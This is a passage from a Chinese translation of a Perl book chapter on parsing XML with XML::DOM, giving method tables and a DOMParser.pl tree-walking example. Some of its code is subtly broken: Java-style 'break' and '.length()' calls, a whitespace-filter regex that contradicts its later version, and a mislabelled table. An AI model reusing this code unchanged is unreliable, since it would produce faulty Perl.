| --- | --- |
| addText (text) | 若最后一个子节点是 **Text** 节点，则将指定字符串追加到该节点后；否则新建一个包含指定文本的 **Text** 节点并追加。 |
| dispose | 清除当前节点及其所有后代节点中的循环引用，使对象可被垃圾回收机制回收。 |
| setOwnerDocument (doc) | 将当前节点及其所有子节点的 **ownerDocument** 属性设置为指定文档。 |
| isAncestor (parent) | 若 parent 是当前节点的祖先节点，或是当前节点本身，则返回真值。 |
| expandEntityRefs (str) | 展开字符串中的所有实体引用，并返回结果。 |

| 方法 | 说明 |
| --- | --- |
| item (index) | 返回集合中指定索引位置的条目。 |
| getLength | 返回列表中节点的数量，子节点索引的范围为 0 到 length−1（包含两端）。 |

| 方法 | 说明 |
| --- | --- |
| getNamedItem (name) | 按名称获取节点。 |
| setNamedItem (arg) | 使用节点的 **nodeName** 属性将节点添加到映射中。 |
| removeNamedItem (name) | 按名称移除节点。 |
| item (index) | 返回映射中指定索引位置的条目。 |
| getLength | 返回映射中节点的数量，有效子节点索引的范围为 0 到 length−1（包含两端）。 |
| getValues | 返回包含 **NamedNodeMap** 中所有节点的 NodeList。 |
| getChildIndex (node) | 返回节点在 **getValues** 返回的 NodeList 中的索引，若节点不在 **NamedNodeMap** 中则返回 −1。 |
| dispose | 清除当前 **NamedNodeMap** 及其所有后代节点中的循环引用，使对象可被垃圾回收机制回收。 |

- 接口 *XML::DOM::CharacterData*（*继承自 XML::DOM::Node*）——提供访问字符数据的方法。*参见表 25.5。*
- **XML::DOM::Attr**（*继承自 XML::DOM::Node*）——Attr 接口表示 **Element** 对象中的属性。*参见表 25.6。*
- **XML::DOM::Element**（*继承自 XML::DOM::Node*）——提供 Element 节点的相关支持。*参见表 25.7。*


# 第25章 XML::DOM 解析
## 字符数据接口
| 方法 | 说明 |
|--------|-------------|
| getData 和 setData (data) | 获取或设置实现此接口的节点的字符数据。 |
| getLength | 返回通过 data 方法和 **substringData** 方法可获取的字符数。 |
| substringData (offset, count) | 从节点中提取一段数据。参数：**offset**——要提取的子串起始偏移量；**count**——要提取的字符数。 |
| appendData (str) | 将字符串追加到节点字符数据的末尾。 |
| insertData (offset, arg) | 在指定字符偏移量处插入字符串。参数：**offset**——要插入的字符**偏移量**；**arg**——要插入的**DOMString**。 |
| deleteData (offset, count) | 从节点中删除一段字符。参数：**offset**——要删除字符的偏移量；**count**——要删除的字符数。 |
| replaceData (offset, count, arg) | 将起始于指定偏移量的字符替换为给定字符串。参数：**offset**——要开始替换的偏移量；count——要替换的字符数；**arg**——要使用的**DOMString**。 |
## 属性接口
| 方法 | 说明 |
|--------|-------------|
| getValue | 获取属性的值。 |
| setValue (str) | 设置属性的值。 |
| getName | 返回此属性的名称。 |
## 元素接口
| 方法 | 说明 |
|--------|-------------|
| getTagName | 返回元素的标签名。 |
| getAttribute (name) | 按名称返回属性值。 |
| setAttribute (name, value) | 添加一个新属性。 |
| removeAttribute (name) | 按名称移除属性。 |
| getAttributeNode | 按名称检索 Attr 节点。 |
| setAttributeNode (attr) | 添加一个新属性。 |
| removeAttributeNode (oldAttr) | 移除给定的属性。 |
| setTagName (newTagName) | 设置元素的标签名。 |
- **XML::DOM::Text**（*继承自 XML::DOM::CharacterData*）——支持元素或属性的文本内容。*参见表25.8。*
- **XML::DOM::Comment**（*继承自 XML::DOM::CharacterData*）——支持XML注释的内容。
## 文本接口
| 方法 | 说明 |
|--------|-------------|
| splitText (offset) | 在给定偏移量处将此Text节点拆分为两个Text节点，二者成为兄弟节点。 |
- **XML::DOM::CDATASection**（*继承自 XML::DOM::CharacterData*）——CDATA段用于包含否则会被视为标记的文本。
- **XML::DOM::ProcessingInstruction**（*继承自 XML::DOM::Node*）——表示XML处理指令。*参见表25.9。*
- **XML::DOM::Entity**（*继承自 XML::DOM::Node*）——表示实体声明。
- **XML::DOM::Notation**（*继承自 XML::DOM::Node*）——表示XML符号。*参见表25.10。*
- **XML::DOM::Entity**——表示XML实体声明。*参见表25.11。*
- **XML::DOM::DocumentType**（*继承自 XML::DOM::Node*）——表示**doctype**属性，其值为null或**DocumentType**对象。*参见表25.12。*
- **XML::DOM::DocumentFragment**（*继承自 XML::DOM::Node*）——表示文档片段。
## 处理指令接口
| 方法 | 说明 |
|--------|-------------|
| getTarget | 返回此处理指令的目标，即处理指令起始标记后的第一个标记。 |
| getData 和 setData (data) | 返回此处理指令的内容，即目标后第一个非空白字符之后的所有内容。 |
## 符号接口
| 方法 | 说明 |
|--------|-------------|
| getName 和 setName (name) | 返回/设置符号的名称，即**NOTATION**关键字后的第一个标记。 |
| getSysId 和 setSysId (sysId) | 返回/设置系统ID，即可选的**SYSTEM**关键字后的标记。 |
| getPubId 和 setPubId (pubId) | 返回/设置公共ID，即可选的**PUBLIC**关键字后的标记。 |
| getNodeName | 返回值与**getName**相同。 |
## 实体接口
| 方法 | 说明 |
|--------|-------------|
| getNotationName | 返回实体的符号名称。 |
| getSysId | 返回系统ID。 |
| getPubId | 返回公共ID。 |
| isParameterEntity | 若实体是参数实体则返回真。 |
| getValue | 返回实体的值。 |
| getNdata | 返回一般未解析实体的NDATA声明。 |
### 表25.11 XML::DOM::Entity的方法
### 文档类型接口
| 方法 | 说明 |
|--------|-------------|
| getName | 返回DTD的名称（即DTD中DOCTYPE后紧跟的名称）。 |
| getEntities | 返回包含DTD中声明的通用实体的NamedNodeMap对象。 |
| getNotations | 返回包含DTD中声明的符号的NamedNodeMap对象。 |
| getSysId 和 setSysId (sysId) | 返回/设置系统ID。 |
| getPubId 和 setPubId (pubId) | 返回/设置公共ID。 |
| setName (name) | 设置DTD的名称（即DTD中DOCTYPE后紧跟的名称）。 |
| getAttlistDecl (elemName) | 返回给定名称元素的属性列表声明。 |
| getElementDecl (elemName) | 返回给定元素的元素声明。 |
| getEntity (entityName) | 返回给定名称的实体。 |
| addAttlistDecl (elemName) | 添加一个给定名称的新属性声明节点。 |
| addElementDecl (elemName, model) | 添加一个给定名称和模型的新元素声明节点（若尚不存在）。 |
| addEntity (parameter, notationName, value, sysId, pubId, ndata) | 添加一个新的实体节点。 |
| addNotation (name, base, sysId, pubId) | 添加一个新的符号对象。 |
| addAttDef (elemName, attrName, type, default, fixed) | 添加一个新的属性定义。 |
| getDefaultAttrValue (elem, attr) | 将默认属性值以字符串形式返回。 |
| expandEntity (entity [, parameter]) | 展开给定的实体或参数实体（若parameter等于1），并将其值以字符串形式返回。 |
### 表25.12 XML::DOM::DocumentType的方法
# 第25章 XML::DOM 解析
- **XML::DOM::DOMImplementation**——支持多种用于执行与特定DOM实例无关的操作的方法。*参见表25.13。*
- **XML::DOM::Document**（*继承自 XML::DOM::Node*）——表示文档的主根节点。*参见表25.14。*
你可以在本节后续的表格中找到这些类和接口的专属方法。更多详情请参阅**XML::DOM**官方文档。
## DOM实现接口
| 方法 | 说明 |
|--------|-------------|
| hasFeature (feature, version) | 若**feature**参数为"XML"且**version**等于"1.0"，则返回真。 |
### 表25.13 XML::DOM::DOMImplementation的方法
## 文档接口
| 方法 | 说明 |
|--------|-------------|
| getDocumentElement | 直接访问作为文档根元素的子节点。 |
| getDoctype | 获取此文档的文档类型声明。 |
| getImplementation | 获取处理此文档的**DOMImplementation**对象。 |
| createElement (tagName) | 创建一个指定类型的元素。 |
| createTextNode (data) | 根据给定字符串创建一个Text节点。 |
| createComment (data) | 根据给定字符串创建一个注释节点。 |
| createCDATASection (data) | 根据给定字符串创建一个CDATASection节点。 |
| createAttribute (name [, value [, given]]) | 创建一个指定名称的属性节点。 |
| createProcessingInstruction (target, data) | 根据给定的目标名称和数据字符串创建一个处理指令节点。 |
| createDocumentFragment | 创建一个空的**DocumentFragment**对象。 |
| createEntityReference (name) | 创建一个**EntityReference**对象。 |
| getXMLDecl 和 setXMLDecl (xmlDecl) | 返回/设置此文档的XML声明。 |
| setDoctype (doctype) | 设置文档类型。 |
| getDefaultAttrValue (elem, attr) | 将默认属性值以字符串形式返回。参数：**elem**——元素名称；**attr**——属性名称。 |
| getEntity (name) | 返回给定名称的实体。 |
| createXMLDecl (version, encoding, standalone) | 创建一个**XMLDecl**对象。 |
| createDocumentType (name, sysId, pubId) | 创建一个**DocumentType**对象。 |
| createNotation (name, base, sysId, pubId) | 创建一个新的**Notation**对象。 |
### 表25.14 XML::DOM::Document的方法


### 即时解决方案

表 25.14 **XML::DOM::NodeList 中的方法** *（续）*。

| 方法 | 描述 |
|---|---|
| createEntity (parameter, notationName, value, sysId, pubId, ndata) | 创建一个 **Entity** 对象。 |
| createElementDecl (name, model) | 创建一个 **Element Declaration** 对象。 |
| createAttlistDecl (name) | 创建一个 **Attribute Declaration** 对象。 |
| expandEntity (entity [, parameter]) | 展开给定的实体或参数实体（如果 **parameter** 等于 1），并以字符串形式返回其值。 |

| 相关解决方案： | 所在页码： |
|---|---|
| 使用 SAX | 1145 |

## DOM 解析：DOMParser.pl 示例

"好吧，"大老板说，"如果你想的话，我们可以使用 **XML::DOM** 模块来解析 XML 文档。开始吧！""没问题，"你说。

如前一节所述，要解析 XML 文档，你需要创建一个 **XML::DOM::Parser** 类的新对象，并使用该对象的 **parsefile** 方法来解析文档。这将创建一个文档对象的引用，你可以在代码中对其进行操作：

```
my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("planets.xml");
```

你可以对已解析文档的引用 **$doc** 使用 **XML::DOM** 模块的方法，你可以在上一节中查看 **XML::DOM** 的方法。

例如，如果你想将已解析的文档转换为字符串并打印出来，可以使用 **toString** 方法：

```
use XML::DOM;

my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("planets.xml");
print $doc->toString();
```

这个完整的程序只是读取 planets.xml，解析它，然后按照原始格式原样打印出来。如果你运行这个示例，你会注意到输出的缩进与原始文档一致，每级缩进为四个空格。

实际上发生的是，XML 解析器将所有用于缩进的空白字符都视为文本节点，并在输出文档中保留了它们。

另外，你也可以使用 **printToFile** 方法将解析后的文档写入新文件：

```
use XML::DOM;

my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("planets.xml");
$doc->printToFile("planets2.xml");
```

然而，我们所做的只是将 planets.xml 复制了一份；我们还没有能够访问其数据。要操作 planets.xml 中的数据，你需要逐个节点地处理。以下是 **XML::DOM** 中可用的不同节点类型，以常量表示，以及每个常量对应的数值：

- **UNKNOWN_NODE (0)** — 一个未知节点（不属于 DOM）
- **ELEMENT_NODE (1)** — 一个 Element 节点
- **ATTRIBUTE_NODE (2)** — 一个 Attr 节点
- **TEXT_NODE (3)** — 一个 Text 节点
- **CDATA_SECTION_NODE (4)** — 一个 CDATASection 节点
- **ENTITY_REFERENCE_NODE (5)** — 一个 EntityReference 节点
- **ENTITY_NODE (6)** — 一个 Entity 节点
- **PROCESSING_INSTRUCTION_NODE (7)** — 一个 ProcessingInstruction 节点
- **COMMENT_NODE (8)** — 一个 Comment 节点
- **DOCUMENT_NODE (9)** — 一个 Document 节点
- **DOCUMENT_TYPE_NODE (10)** — 一个 DocumentType 节点
- **DOCUMENT_FRAGMENT_NODE (11)** — 一个 DocumentFragment 节点
- **NOTATION_NODE (12)** — 一个 Notation 节点
- **ELEMENT_DECL_NODE (13)** — 一个 ElementDecl 节点（不属于 DOM）
- **ATT_DEF_NODE (14)** — 一个 AttDef 节点（不属于 DOM）
- **XML_DECL_NODE (15)** — 一个 XMLDecl 节点（不属于 DOM）
- **ATTLIST_DECL_NODE (16)** — 一个 AttlistDecl 节点（不属于 DOM）

为了展示如何提取 XML 文档中的数据，我将创建一个名为 DOMParser.pl 的新程序。这个程序将遍历 XML 文档的整个树结构并显示它。以下是 DOMParser.pl 的代码，供参考：

```
use XML::DOM;

my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("planets.xml");

$numberTextLines = 0;

createDisplay($doc, "");

for ($loopIndex = 0; $loopIndex < $numberTextLines; $loopIndex++){
    print $textToDisplay[$loopIndex] . "\n";
}

sub createDisplay
{

    my $node = $_[0];
    my $indent = $_[1];

    if ($node == null) {
        return;
    }

    my $type = $node->getNodeType();

    if($type == DOCUMENT_NODE) {
        $textToDisplay[$numberTextLines] = $indent;
        $textToDisplay[$numberTextLines] .=
            "<?xml version=\"1.0\"?>";
        $numberTextLines++;
        createDisplay($node->getFirstChild(), "");
        break;
    }

    if($type == ELEMENT_NODE) {
        $textToDisplay[$numberTextLines] = $indent;
        $textToDisplay[$numberTextLines] .= "<";
        $textToDisplay[$numberTextLines] .= $node->getNodeName();

        $numberAttributes = 0;
        if($node->getAttributes() != null){
            $numberAttributes =
                $node->getAttributes()->getLength();
        }

        for ($loopIndex = 0; $loopIndex < $numberAttributes;
             $loopIndex++) {

            $attribute =
                ($node->getAttributes())->item($loopIndex);
            $textToDisplay[$numberTextLines] .= " ";
            $textToDisplay[$numberTextLines] .=
                $attribute->getNodeName();
            $textToDisplay[$numberTextLines] .= "=\"";
            $textToDisplay[$numberTextLines] .=
                $attribute->getNodeValue();
            $textToDisplay[$numberTextLines] .= "\"";
        }

        $textToDisplay[$numberTextLines] .= ">";

        $numberTextLines++;

        my @childNodes = $node->getChildNodes();
        if (@childNodes != null) {
            my $numberChildNodes = $#childNodes + 1;
            $indent .= "    ";
            my $loopIndex;
            for ($loopIndex = 0; $loopIndex < $numberChildNodes;
                 $loopIndex++ )
            {
                createDisplay($childNodes[$loopIndex], $indent);
            }
        }

        $textToDisplay[$numberTextLines] = substr($indent, 0,
            $indent.length() - 4);
        $textToDisplay[$numberTextLines] .= "</";
        $textToDisplay[$numberTextLines] .= $node->getNodeName();
        $textToDisplay[$numberTextLines] .= ">";
        $numberTextLines++;
    }

    if($type == TEXT_NODE) {
        $textToDisplay[$numberTextLines] = $indent;
        $nodeText = $node->getNodeValue();
        if(($nodeText =~ /^[ \n\t\r]/g) && length($nodeText) > 0) {
            $textToDisplay[$numberTextLines] .= $nodeText;
            $numberTextLines++;
        }
    }

    if($type == PROCESSING_INSTRUCTION_NODE) {
        $textToDisplay[$numberTextLines] = $indent;
        $textToDisplay[$numberTextLines] .= "<?";
        $textToDisplay[$numberTextLines] .= $node->getTarget();
        $PItext = $node->getData();
        $textToDisplay[$numberTextLines] .= " " . $PItext;
        $textToDisplay[$numberTextLines] .= "?>";
        $numberTextLines++;
    }

    createDisplay($node->getNextSibling(), $indent);
}
```

程序的开头是解析 planets.xml 并获取结果文档对象的引用：

```
use XML::DOM;

my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("planets.xml");
```

由于我们需要在已解析的节点树中上下移动，实际的工作将由一个名为 **createDisplay** 的递归子程序（即可以调用自身的子程序）来完成。**createDisplay** 子程序将逐行填充一个名为 **@textToDisplay** 的数组，内容为 planets.xml 的数据，并将行数存储在一个名为 **$numberTextLines** 的变量中。通过这种方式，planets.xml 中所有可用的数据都集中在这个文本数组中。在编写这个示例的过程中，我们将了解如何遍历作为 W3C DOM 树传递给我们的已解析 XML 文档。

为了启动整个过程，我将使用已解析文档本身的引用 **$doc** 来调用 **createDisplay**。在 **createDisplay** 完成工作后，我们将遍历生成的文本数组并逐行打印出来：

```
use XML::DOM;

my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("planets.xml");

$numberTextLines = 0;

createDisplay($doc, "");

for ($loopIndex = 0; $loopIndex < $numberTextLines; $loopIndex++){
    print $textToDisplay[$loopIndex] . "\n";
}
```

遍历 XML 文档的实际工作在 **createDisplay** 子程序中完成。这个子程序将创建用于显示的带缩进的文档。你需要向这个子程序传递一个节点的引用以及当前的缩进字符串。**createDisplay** 子程序将判断传入的节点类型，正确处理该节点，将其添加到文本数组 **@textToDisplay** 中，然后移动到下一个子节点或兄弟节点并再次调用 **createDisplay**。

以下是 **createDisplay** 的开头部分：我首先存储传入的节点引用和缩进字符串，然后获取节点的类型（该类型由本节前面项目列表中的一个值表示）。另外请注意，由于 **createDisplay** 在节点树中上下移动时会调用自身，因此所有局部变量都应该通过使用 **my** 声明来显式设为局部变量（这样这些变量才不会在下次调用时被覆盖）：

```
sub createDisplay
{

    my $node = $_[0];
    my $indent = $_[1];

    if ($node == null) {
        return;
    }

    my $type = $node->getNodeType();
```

现在我们知道了传入的是哪种类型的节点，就可以对其进行处理了。如上所述，我第一次调用 **createDisplay** 时传入了文档本身的引用 **$doc**，它对应于文档最开头的文档节点。我将在下一节中处理该节点。

## 处理文档节点

文档节点（不是文档*元素* — planets.xml 中的 **\<PLANETS\>**，它是文档中的第一个元素）对应于文档的最开头。为了在我们上一节开始编写的 DOMParser.pl 程序中处理文档的开头，我将添加一个默认的 XML 声明。


### 第25章 XML::DOM 解析到文本数组 **@textToDisplay**
来解析文档开头部分，先递增该数组中的当前位置**$numberTextLines**，随后再次调用文档节点第一个子节点上的**createDisplay**方法，以此开始处理文档本身。
要访问第一个子节点，我通过以下方式在节点引用上调用**getFirstChild**方法：
``` sub createDisplay { my $node = $_[0]; my $indent = $_[1]; if ($node == null) { return; } my $type = $node->getNodeType(); if($type == DOCUMENT_NODE) { $textToDisplay[$numberTextLines] = $indent; $textToDisplay[$numberTextLines] .= "<?xml version=\"1.0\"?>"; $numberTextLines++; createDisplay($node->getFirstChild(), ""); break; } ```
这就开始处理planets.xml中的节点，也说明了我们解析该文档的方式——处理当前节点，并确保对当前节点的任意子节点或兄弟节点再次调用**createDisplay**方法。
例如，planets.xml中最关键的节点是元素节点，接下来我们就来处理这类节点。
### 处理元素节点
> “我对所有细节都不太感兴趣，”大老板说，“我只想从文档的XML元素中取出数据，该怎么做呢？”
> “首先要做的是，”你说，“检查类型为**ELEMENT_NODE**的节点。”
元素节点在**XML::DOM**中的类型为**ELEMENT_NODE**，因此很容易找到。
要处理元素节点，我会通过**getNodeName**方法获取节点名称，并为该元素创建开始标签。注意此时还不能添加结束标签，因为尚未处理该元素的任意子节点，比如其他元素或文本节点，而这些内容必须在添加结束标签之前完成显示。
遇到元素时，创建开始标签的方式如下：
``` if($type == ELEMENT_NODE) { $textToDisplay[$numberTextLines] = $indent; $textToDisplay[$numberTextLines] .= "<"; $textToDisplay[$numberTextLines] .= $node->getNodeName(); $textToDisplay[$numberTextLines] .= ">"; $numberTextLines++; ```
接下来需要处理当前元素节点的子节点。你可以通过**getChildNodes**方法获取一个**XML::DOM NodeList**对象，该对象保存了当前节点所有子节点的引用。
我会将这个对象赋值给数组**@childNodes**，该数组用于存储所有子节点。
接下来只需要遍历该数组，并对每个子节点引用调用**createDisplay**方法（注意：如果当前节点是文档元素，那么遍历其所有子节点，再逐层遍历子节点的子节点直至所需深度，即可遍历文档中的所有元素）：
``` if($type == ELEMENT_NODE) { $textToDisplay[$numberTextLines] = $indent; $textToDisplay[$numberTextLines] .= "<"; $textToDisplay[$numberTextLines] .= $node->getNodeName(); $textToDisplay[$numberTextLines] .= ">"; $numberTextLines++; my @childNodes = $node->getChildNodes(); if (@childNodes != null) { my $numberChildNodes = $#childNodes + 1; $indent .= " "; my $loopIndex; for ($loopIndex = 0; $loopIndex < $numberChildNodes; $loopIndex++ ) { createDisplay($childNodes[$loopIndex], $indent); } } } ```
现在我们能够打印出每个元素的开始标签，比如**<PLANETS>**或**<PLANET>**。通过同时处理当前元素的所有子节点，我们得以逐步遍历整个planets.xml文档。
当前元素的内容（比如名称“Mercury”）会以文本节点的形式传递过来，我们在处理文本节点时即可对其进行处理。
不过要注意，到这里我们还没完全完成——如果元素带有属性该怎么办呢？这类属性需要添加到开始标签中，我将在下一节中处理这部分内容。
此外，处理完当前元素的子节点后，还需要为其添加结束标签；这部分内容我会在本章稍后的“即时解决方案”章节“关闭元素节点”中讲解。
### 处理属性节点
> “嘿，”新手程序员说，“我现在只会获取元素的名称，那元素的属性该怎么办呢？”
> “没问题，”你说，“你只需要使用**getAttributes**方法就可以了。”
在XML DOM中，属性被视为节点，但它们*不*被视为对应元素的子节点。
这意味着你需要做专门的设置来处理属性。
具体来说，当你在元素节点上调用**getAttributes**方法时，会得到一个**XML::DOM NamedNodeMap**对象，该对象保存了当前元素所有属性节点的引用。
你可以通过**NamedNodeMap**对象的**getLength**方法获取属性数量，也可以通过**item**方法获取该对象中的每个属性，调用**item**方法时传入所需属性的索引即可。
**NamedNodeMap**对象中的每个属性实际上都是属性节点对象的引用，因此你可以使用**getNodeName**方法获取属性名称，使用**getNodeValue**方法获取属性值。
这样一来，将元素的属性添加到其开始标签中就很简单了，示例如下：
``` if($type == ELEMENT_NODE) { $textToDisplay[$numberTextLines] = $indent; $textToDisplay[$numberTextLines] .= "<"; $textToDisplay[$numberTextLines] .= $node->getNodeName(); $numberAttributes = 0; if($node->getAttributes() != null){ $numberAttributes = $node->getAttributes()->getLength(); } for ($loopIndex = 0; $loopIndex < $numberAttributes; $loopIndex++) { $attribute = ($node->getAttributes())->item($loopIndex); $textToDisplay[$numberTextLines] .= " "; $textToDisplay[$numberTextLines] .= $attribute->getNodeName(); $textToDisplay[$numberTextLines] .= "=\""; $textToDisplay[$numberTextLines] .= $attribute->getNodeValue(); $textToDisplay[$numberTextLines] .= "\""; } $textToDisplay[$numberTextLines] .= ">"; $numberTextLines++; my @childNodes = $node->getChildNodes(); if (@childNodes != null) { my $numberChildNodes = $#childNodes + 1; $indent .= " "; my $loopIndex; for ($loopIndex = 0; $loopIndex < $numberChildNodes; $loopIndex++ ) { createDisplay($childNodes[$loopIndex], $indent); } } ```
现在我们已经能够在元素的开始标签中显示其所有属性了，示例如**<MASS UNITS="(Earth = 1)">**。不过，我们尚未处理元素的内容，比如元素**<NAME>Mercury</NAME>**中的名称“Mercury”。
这部分内容我将在下一节中讲解。
### 处理文本节点
> “嘿，”大老板说，“你现在会打印每个元素的开始标签和元素的所有属性，但元素的内容呢？”
> “哦对哦，”你说，“接下来就讲这个。”
元素的内容（比如元素**<NAME>Mercury</NAME>**中的名称“Mercury”）会被视为文本节点，其节点类型为**XML::DOM TEXT_NODE**。
不过正如本章“深度讲解”部分所述，作为**XML::DOM**模块核心的XML解析器Expat，默认情况下也会将planets.xml中用于缩进的所有文本视为文本节点，示例如下：
``` <PLANETS> <PLANET> <NAME>Mercury</NAME> <MASS UNITS="(Earth = 1)">.0553</MASS> <DAY UNITS="days">58.65</DAY> <RADIUS UNITS="miles">1516</RADIUS> <DENSITY UNITS="(Earth = 1)">.983</DENSITY> <DISTANCE UNITS="million miles">43.4</DISTANCE><!--At perihelion--> </PLANET> ```
我们只想要对应元素内容的文本节点，而不是用于缩进的空白节点，因此我不会存储仅包含空白字符（空格、换行、回车和/或制表符）的文本节点。
我们可以通过**getNodeValue**方法获取文本节点的实际内容，也就是说，我们可以通过以下方式将每个元素的内容添加到**@textToDisplay**数组中，同时用正则表达式测试排除所有纯空白节点：
``` if($type == TEXT_NODE) { $textToDisplay[$numberTextLines] = $indent; $nodeText = $node->getNodeValue(); if(($nodeText =~ /[^ \n\t\r]/g) && length($nodeText) > 0) { $textToDisplay[$numberTextLines] .= $nodeText; $numberTextLines++; } } ```
除了元素和属性之外，我们还可以处理XML处理指令，这部分内容我将在下一节中介绍。
### 处理处理指令节点
> “好吧，”大老板说，“我们已经处理了XML文档中的元素、属性和文本节点，那XML处理指令呢？”
> “完全没问题，”你说，“你只需要使用**getTarget**和**getData**方法就可以了。”
正如本章“深度讲解”部分所述，XML处理指令以**<?**开头、以**?>**结尾，比如planets.xml中的这条：

## 第25章 XML::DOM 解析
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="planets.xsl"?>
<PLANETS>
    <PLANET>
        <NAME>Mercury</NAME>
```
在 XML::DOM 中，这些类型的节点被赋予类型 PROCESSING_INSTRUCTION_NODE。你可以通过 getTarget 方法获取处理指令的名称（这里是 xml-stylesheet），通过 getData 方法获取处理指令的其余部分（这里是 type="text/xml" href="planets.xsl"）。

以下是我如何在 DOMParser.pl 中将处理指令添加到文本数组的方法：
```perl
if($type == PROCESSING_INSTRUCTION_NODE) {
    $textToDisplay[$numberTextLines] = $indent;
    $textToDisplay[$numberTextLines] .= "<?";
    $textToDisplay[$numberTextLines] .= $node->getTarget();
    $PItext = $node->getData();
    $textToDisplay[$numberTextLines] .= " " . $PItext;
    $textToDisplay[$numberTextLines] .= "?>";
    $numberTextLines++;
    createDisplay($node->getNextSibling(), $indent);
}
```

只剩下最后一步，DOMParser.pl 程序就完整了——我们必须为每个元素标签添加一个结束标签。

### 闭合元素节点
在 DOMParser.pl 程序中，我们通过显示开始标签、元素的所有属性以及元素的文本来处理每个元素。我们仍然需要为元素添加一个结束标签。我们已经处理了每个元素及其子元素，以及文本节点：
```perl
if($type == ELEMENT_NODE) {
    # 处理该元素及其子元素...
}
```
```perl
if($type == TEXT_NODE) {
    # 处理文本节点...
}
```

在处理完一个元素及其子元素，以及任何表示该元素内容的文本节点后，我们可以在 DOMParser.pl 中像这样为元素添加一个结束标签：
```perl
if ($type == ELEMENT_NODE) {
    $textToDisplay[$numberTextLines] = substr($indent, 0, length($indent) - 4);
    $textToDisplay[$numberTextLines] .= "</";
    $textToDisplay[$numberTextLines] .= $node->getNodeName();
    $textToDisplay[$numberTextLines] .= ">";
    $numberTextLines++;
    $indent .= " ";
}
```

这就是全部所需的——现在 DOMParser.pl 已经完成了。我将在下一节运行它。

### 运行 DOMParser.pl 示例
当你运行 DOMParser.pl 时，它会读取 planets.xml，解析它，并遍历整个 DOM 节点树，将文档内容存储在一个名为 @textToDisplay 的数组中，然后打印出来。结果如下：
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="planets.xsl"?>
<PLANETS>
    <PLANET>
        <NAME> Mercury </NAME>
        <MASS UNITS="(Earth = 1)"> .0553 </MASS>
        <DAY UNITS="days"> 58.65 </DAY>
        <RADIUS UNITS="miles"> 1516 </RADIUS>
        <DENSITY UNITS="(Earth = 1)"> .983 </DENSITY>
        <DISTANCE UNITS="million miles"> 43.4 </DISTANCE>
    </PLANET>
    <PLANET>
        <NAME> Venus </NAME>
        <MASS UNITS="(Earth = 1)"> .815 </MASS>
        <DAY UNITS="days"> 116.75 </DAY>
        <RADIUS UNITS="miles"> 3716 </RADIUS>
        <DENSITY UNITS="(Earth = 1)"> .943 </DENSITY>
        <DISTANCE UNITS="million miles"> 66.8 </DISTANCE>
    </PLANET>
    <PLANET>
        <NAME> Earth </NAME>
        <MASS UNITS="(Earth = 1)"> 1 </MASS>
        <DAY UNITS="days"> 1 </DAY>
        <RADIUS UNITS="miles"> 2107 </RADIUS>
        <DENSITY UNITS="(Earth = 1)"> 1 </DENSITY>
        <DISTANCE UNITS="million miles"> 128.4 </DISTANCE>
    </PLANET>
</PLANETS>
```

如你所见，我们已经能够处理 planets.xml 中的数据。我们不仅仅是显示文档本身——我们还看到了如何遍历文档，以及如何在 **XML::DOM** 为我们提供的节点树中上下移动。在下一章中，我们将看到使用 **XML::DOM** 还可以做更多事情，例如修改文档内容，我们还将看到一种不同的解析 XML 文档的方式——简单 XML API（SAX）——许多人认为它比处理 DOM 节点树更容易。

# 第26章 XML：修改文档内容和SAX解析
| 如果你需要关于以下内容的即时解决方案： | 请参见页码： |
|---|---|
| 在 XML 文档中导航 | 1123 |
| 搜索特定的 XML 元素 | 1127 |
| 创建新的 XML 元素 | 1131 |
| 创建新的 XML 属性 | 1135 |
| 替换 XML 元素 | 1136 |
| 删除 XML 元素 | 1140 |
| 处理错误 | 1141 |
| 使用 SAX | 1145 |
| SAX 解析：SAXParser.pl 示例 | 1149 |
| 处理文档开始 | 1150 |
| 处理元素开始 | 1151 |
| 处理属性 | 1152 |
| 处理元素结束 | 1153 |
| 处理文本 | 1153 |
| 处理处理指令 | 1154 |
| 处理文档结束 | 1155 |
| 运行 SAXParser.pl | 1155 |
| 使用 SAX 在 XML 文档中导航 | 1157 |
| 处理 SAX 解析中的错误 | 1159 |

### 深入探讨
在上一章中，我们初步了解了 **XML::DOM** 的方法，如 **getNodeName** 和 **getNodeType**，这些方法让我们能够处理 XML 文档中的数据。我们也在一定程度上使用了 **getFirstSibling** 等方法在 DOM 节点树中进行导航。在本章中，我们将扩展这方面的知识，看到更多导航方法的实际应用，使我们能够在节点树中自由移动。我们还将看到如何在本章中使用 **XML::DOM** 方法来*修改* XML 文档。你可以通过多种方式修改 XML 文档——添加新元素或新属性、移动元素、删除元素等等，所有这些都可以使用内置的 **XML::DOM** 方法完成。我们还将在本章中探讨简单 XML API（SAX）。我们已经看到 DOM 解析如何以节点树的形式呈现 XML 文档，你必须使用 DOM 导航方法在该树中移动。另一方面，SAX 提供了另一种解析 XML 文档的方式，而且许多人认为它更容易。在继续进行即时解决方案部分之前，我将首先探讨这三个主题。

### 在 XML 文档中导航
**XML::DOM** 模块以节点树的形式呈现 XML 文档，你需要遍历该树以获取所需的数据。要在节点树中移动，你可以使用导航方法，**XML::DOM** 模块包含多种这样的方法，包括：
- getFirstChild
- getLastChild
- getPreviousSibling
- getNextSibling
- getChildIndex (child)
- getChildAtIndex (index)
- getParentNode
- getChildNodes

我们将看到如何使用这些方法在节点树中移动。在上一章创建 DOMParser.pl 程序时，我们已经使用了一些导航方法，本章将更深入地探讨。

### 修改 XML 文档
**XML::DOM** 模块还包含许多可用于即时修改 XML 文档的方法。这些方法包括：
- setParentNode (parentNode)
- insertBefore (newChild, correctChild)
- replaceChild (newChild, oldChild)
- removeChild (oldChild)
- appendChild (newChild)
- setAttribute (name, value)

我们将在本章中修改 XML 文档，包括创建和插入新的 XML 元素、添加新属性、替换元素和删除元素。

### 简单 XML API
